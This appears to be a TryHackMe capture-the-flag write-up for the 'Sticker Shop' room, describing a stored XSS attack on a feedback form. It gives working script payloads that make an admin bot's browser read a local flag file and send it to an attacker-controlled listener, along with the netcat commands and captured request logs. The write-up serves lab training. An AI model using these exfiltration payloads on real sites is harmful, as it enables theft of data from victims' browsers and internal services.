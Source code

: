 # The Sticker Shop - TryHackMe Writeup

**TL;DR:** Exploited a Client-Side XSS vulnerability to steal the flag from the local application.

## Target
- Machine: `sticker.thm`
- Date: 2025-6-10
- Environment: TryHackMe / CTF

--------------------------------

The room's hint, "Can you conduct any client-side exploitation in order to read the flag?", 
directly pointed towards an XSS (Cross-Site Scripting) attack.

The application had a single, prominent input vector: the /submit_feedback page.

## Exploitation

### Step 1: Proof-of-Concept (XSS Confirmation)

A simple test payload was submitted to check if the application was vulnerable and if the feedback was rendered unsafely.

Payload:
```js
</test><script>fetch('http://YOUR_IP:4444');</script>
```

A netcat listener was set up on the attack machine:
```bash
nc -lnvp 4444
```
Result: A connection was received from the target,
confirming the XSS vulnerability and that a headless browser (likely an admin bot) was visiting the feedback page.

```bash
connect to [10.10.1.29] from (UNKNOWN) [10.10.18.180] 35056
GET / HTTP/1.1
Host: 10.10.1.29:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36... HeadlessChrome/119.0.6045.105
...
```

### Step 2: Stealing the Flag

With confirmed XSS, the next step was to force the victim's browser to read the local flag file `http://127.0.0.1:8080/flag.txt`
and exfiltrate its contents.

Final Payload:
```js
</test><script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://YOUR_IP:4444/?flag=' + encodeURIComponent(data));
  });
</script>
```

#### Capturing the Flag

After submitting the final payload, the netcat listener captured the incoming request containing the flag.

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.1.29] from (UNKNOWN) [10.10.18.180] 41398
GET /?flag=THM%7B[REDACTED]%7D HTTP/1.1
Host: 10.10.1.29:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```
